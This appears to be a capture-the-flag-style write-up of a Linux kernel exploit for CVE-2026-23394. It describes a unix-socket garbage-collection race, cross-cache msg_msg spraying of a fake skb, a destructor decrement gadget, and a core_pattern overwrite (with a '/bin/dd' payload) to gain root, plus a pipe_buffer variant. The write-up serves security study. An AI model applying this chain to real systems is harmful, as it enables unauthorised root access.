

# CVE-2026-23394

The exploits for LTS and COS are similar, therefore the COS version is a symlink to the LTS version.

## Overview

```c
// @step(name="Exploit attempt (forked)")
pid_t pid = fork();
if (pid == 0) {
    // @step(name="Step 1: Preparation")
    int receiver = vuln_prepare();
    // @step(name="Step 2: Race between unix GC and recv+close")
    int victim_fd = trigger_vuln_race(receiver);
    // @step(name="Step 3: Spray msg_msg to reclaim freed OOB skb slot")
    if (!g_vuln_trigger_only)
        spray_cross_cache_fake_skbs();
    // @step(name="Step 4: recv(MSG_OOB) triggers destructor gadget")
    rip_oob_skb_destructor(victim_fd);
    // @step(name="Step 5: Overwrite core_pattern and trigger crash")
    privesc_core_pattern();
}
```

## Step 0: KASLR bypass

Before entering the main exploit loop, we leak the kernel base address using a timing side-channel (`leak_kaslr_base` from the `xdk` framework). This is needed to compute absolute addresses for the decrement gadget, `core_pattern.mode`, and the `.bss` section used in the fake skb spray.

## Step 1: Preparation

We build a long cycle of unix sockets to make the window between the first socket check and the last socket check longer.

```c
#define NUM_DUMMY          800 // length of the long cycle of sockets
```

victim (checked first) -> dummy[0] -> dummy[1] -> ... -> dummy[NUM_DUMMY - 1] -> receiver (checked last)

## Step 2: Race between unix GC and recv+close

The race window depends on the time it takes the GC to iterate through all dummy sockets. Since this timing varies across machines and runs, we use an adaptive delay: the `busywait_ns` delay starts at 5 us and increases by 1 us every 5 attempts, resetting to the start value when it reaches 30 us. This sweep ensures we eventually hit the right timing.



## Step 3: Spray msg_msg to reclaim freed OOB skb slot

Now the GC has purged the `victim.receive_queue`, so all skbs in it have been freed and we can't access them through the queue anymore.

But the kernel saves a pointer to one skb in `victim.oob_skb`. The last skb sent with MSG_OOB will be saved in this field.

Therefore we can access the freed OOB skb through `recv(victim, MSG_OOB)`. Internally this will call `unix_stream_recv_urg`.

```c
static int unix_stream_recv_urg(struct unix_stream_read_state *state)
{
    // ...

    oob_skb = u->oob_skb;

    if (!(state->flags & MSG_PEEK)) {
        WRITE_ONCE(u->oob_skb, NULL);
        WRITE_ONCE(u->inq_len, u->inq_len - 1);

        if (oob_skb->prev != (struct sk_buff *)&sk->sk_receive_queue &&
            !unix_skb_len(oob_skb->prev)) {
            read_skb = oob_skb->prev; // save the prev skb pointer
            __skb_unlink(read_skb, &sk->sk_receive_queue);
        }
    }

    // ... read a byte from the OOB skb

    // this will free prev skb, which calls skb->destructor
    consume_skb(read_skb);

    // ...
}
```

So we have RIP control here via the `oob_skb->prev->destructor`.

The skbs are stored in a separate cache, so we need a cross-cache spray. To do that, we groom the cache by sending many skbs before the target OOB skb. Also, we send the OOB skb inside a sandwich to make sure we have full control of a page with the target skb and can free all skbs on that page.

Before the spray, we free grooming skbs, which saturate the freelist, and free the OOB skb along with surrounding sandwich skbs. After that, the page with the OOB skb goes straight to the PCP and we are able to pick it up in the next allocation.

There are many options for spraying now. One approach is the pipe write spray, but it requires either a heap leak or physical page spraying (NPerm). On the other hand there is `msg_msg` which naturally gives us a valid kernel pointer to our payload at the `skb->prev` offset (0x8): multiple `msg_msg` objects in the same queue form a doubly-linked list via `m_list`, so `m_list.prev` (at offset 0x8, overlapping `skb->prev`) points to the previous `msg_msg` which also contains our fake skb payload. We lose the first 48 bytes to the `msg_msg` header, but we don't need them anyway.

The spray builds a fake skb:

```c
memset(fake_skb_msg.mtext, 0, msg_data_sz);
*(uint64_t*)&fake_skb_msg.mtext[gadget_read_off     - msg_msg_sz] = target_for_first_deref;
*(uint64_t*)&fake_skb_msg.mtext[skb_off_destructor  - msg_msg_sz] = destructor_gadget;
*(uint32_t*)&fake_skb_msg.mtext[skb_off_users       - msg_msg_sz] = 1;
// we need nullified memory to avoid kernel crash due to presence of fragments
*(uint64_t*)&fake_skb_msg.mtext[skb_off_head        - msg_msg_sz] = bss_section;
```

Here we set the `skb->destructor` pointer and `skb->users` for RIP control. `consume_skb` will decrement `skb->users` and compare it to 0; after that it will free the skb, which calls `skb->destructor`.

The `head` field is filled just to avoid crashing the kernel, because in `unix_stream_recv_urg` we read a byte from the skb and the kernel will try to free all the fragments. We must make sure that we have 0 fragments by setting `head` to zeroed memory such as the `.bss` section. In that case, the kernel can't read or free anything.

The `gadget_read_off` is filled with the data needed for our decrement gadget.

## Step 4: recv(MSG_OOB) triggers destructor gadget

After we call `recv(victim, MSG_OOB)`, the kernel calls `unix_stream_recv_urg`, which calls `consume_skb(victim->oob_skb->prev)`, which calls `oob_skb->prev->destructor`. In our fake structure, the `destructor` field is set to a decrement gadget.

The gadget for the LTS target looks like:

```asm
movq   %rdi, (%rdi)
movq   0x38(%rdi), %rdi
lock decl 0x100(%rdi)
je     0xffffffff812494ee ; <+30> at tasks.h:417:3
jmp    0xffffffff828873b0 ; __x86_return_thunk
```

For COS the gadget is structurally the same but uses `0xf8` as the decrement displacement instead of `0x100`.

When our gadget is called, we have a pointer to our fake skb in `rdi`. We have calculated the offsets in our spray to decrement the `core_pattern.mode` field and make `sysctl.core_pattern` world-writable.

## Step 5: Overwrite core_pattern and trigger crash

After `recv(victim, MSG_OOB)` is finished, we have `sysctl.core_pattern` world-writable, so we just write `|/bin/dd if=/flag of=/dev/kmsg` to it and crash a child, which will execute the payload as root, piping the flag to the kernel messages buffer.

## Mitigation

For the mitigation instance we use another approach.

Race unix_destruct_scm vs MSG_PEEK (get a file descriptor for a freed file) -> reclaim the slot with pipe read-end -> grow pipe_buffers to 250 pages to allocate pipe_buffers via kmalloc_large without using the slab -> free the pipe holding the UAF fd (Order-2 page goes to the PCP) -> spray an Order-2 page via unix socket write -> call splice on the freed pipe, which calls pipe_buf->confirm with the decrement gadget -> decrement core_pattern.mode -> rewrite core_pattern and crash a child.

```c
// @step(name="Exploit attempt (forked)")
pid_t pid = fork();
if (pid == 0) {
    race_context ctx{};
    ctx.gc_delay       = gc_delay;
    ctx.scm_fp_dup_delay = scm_fp_dup_delay;

    // @step(name="Step 1: Preparation - create a long cycle of unix sockets")
    vuln_prepare(&ctx);

    // @step(name="Step 2: Race between unix GC and recv+close")
    // @step(name="Step 3: Race between unix_destruct_scm and scm_fp_dup")
    trigger_race(&ctx);

    // @step(name="Step 4: Replace eventfd with pipe read-end")
    pipe_fds uaf_pipe = convert_uaf_file_into_pipe(ctx.spray_fds, ctx.uaf_alias_fd);

    // @step(name="Step 5: Grow pipe_buffers to kmalloc_large allocation outside slab")
    fcntl(uaf_pipe.write, F_SETPIPE_SZ, PIPE_GROW_NUM_BUFFERS * PAGE_SIZE);
    // We must write something to the pipe, so !pipe_empty(head, tail) is true
    write(uaf_pipe.write, "G", 1);

    // Create a socketpair before pipe closing to avoid reclamation of the uaf_pipe
    // we will close it further and a new file can reclaim the slot
    int splice_sock[2];
    socketpair(AF_UNIX, SOCK_STREAM, 0, splice_sock);

    // @step(name="Step 6: Free pipe->bufs and spray fake pipe_buffers")
    close(uaf_pipe.write);
    close(uaf_pipe.read);
    spray_fake_pipe_buffers(splice_sock[0], &target, kernel_base);

    // @step(name="Step 7: RIP control via splice => pipe->bufs->confirm")
    rip_pipe_buf_confirm(ctx.uaf_alias_fd, splice_sock[1]);

    // @step(name="Step 8: Privilege escalation via core_pattern")
    privesc_core_pattern();
}
```

We replace the MSG_OOB logic with one more race and a RIP-control flow using a file descriptor to a freed file.
